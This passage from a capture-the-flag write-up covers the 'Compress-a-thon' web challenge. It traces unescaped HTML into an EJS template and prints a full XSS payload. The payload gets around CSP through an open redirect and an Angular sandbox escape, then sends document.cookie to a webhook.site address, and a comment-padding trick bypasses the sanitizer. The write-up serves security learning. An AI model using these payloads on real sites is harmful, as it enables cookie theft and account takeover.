  const html = req.body.html;
  const initialLength = parseInt(req.body.initialLength, 10);
  const formattedLength = parseInt(req.body.formattedLength, 10);
  const escapedHtml = escapeHTML(html, formattedLength);

  res.render("index", {
    title: "HTML Styler",
    message: "Hello, World!",
    escapedHtml: escapedHtml,
    initialLength: initialLength,
    formattedLength: formattedLength,
  });
});
```

We can see from where `escapedHtml` flows into `res.render()` function and since we’ve bypassed the `escapeHtml()` function combined with the way it is being injected into `.ejs` template and thus making it vulnerable to `XSS`.

## Exploitation

Our `CSP Bypass XSS Payload` —

```js
<script src="/redirect?url=https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script><script src="/redirect?url=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script><div ng-app ng-csp>{{$on.curry.call().eval("window.location='https://webhook.site/70646e5e-8e28-4781-a610-3c25aa1635e8?c='+document.cookie")}}</div>
```

Now combined with `HTML Sanitization Bypass Technique` —

```js
<!--
-->
<script>alert(1337);</script>
```

**Final Payload** —

```js
<!--
About 381 Newlines or so
-->
<script src="/redirect?url=https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script><script src="/redirect?url=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script><div ng-app ng-csp>{{$on.curry.call().eval("window.location='https://webhook.site/70646e5e-8e28-4781-a610-3c25aa1635e8?c='+document.cookie")}}</div>
```





💜 We have successfully exploited `Compress-a-thon` web app and thus completed the challenge — Happy Hacking!

## Afterwords

🥰 Our team was proud to solve this challenge given to us in the 2nd stage of Pentathon 2025, first because it was categorized as `Hard` difficulty, and second because only the top three teams before us had managed to solve it.

## References

1.  [https://aszx87410.github.io/beyond-xss/en/ch2/csp-bypass/#bypass-via-redirection](https://aszx87410.github.io/beyond-xss/en/ch2/csp-bypass/#bypass-via-redirection)
2.  [https://w3c.github.io/webappsec-csp/#source-list-paths-and-redirects](https://w3c.github.io/webappsec-csp/#source-list-paths-and-redirects)
3.  [https://github.com/kangax/html-minifier?tab=readme-ov-file#options-quick-reference](https://github.com/kangax/html-minifier?tab=readme-ov-file#options-quick-reference)
4.  [https://github.com/mde/ejs/blob/main/docs/syntax.md#--unescaped-output](https://github.com/mde/ejs/blob/main/docs/syntax.md#--unescaped-output)